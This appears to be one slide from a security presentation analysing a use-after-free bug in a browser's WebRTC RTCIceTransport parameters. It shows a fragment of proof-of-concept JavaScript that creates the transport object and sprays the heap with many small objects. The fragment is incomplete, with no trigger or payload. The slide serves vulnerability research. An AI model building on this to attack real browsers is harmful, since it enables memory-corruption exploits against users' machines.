

03
WebRTC Parameters UAF Vulnerability Analysis: Vulnerability Analysis
Sample pseudo code:

var ice_tran = new RTCIceTransport();
var cnt = 0x50000;
var obj_arr = new Array(cnt);
for (let i=0;i<cnt-1;i++){			obj_arr[i] = {
	key0: 0x00000002,
	key1: 0x00000004,
	key2: 0x00000006,
	key3: 0x00000008,
	key4: 0x0000000a,
	key5: 0x0000000c,
}

// Create an RTCIceTransport object

// setRemoteCandidates method accepts RTCIceCandidate dictionary type structure object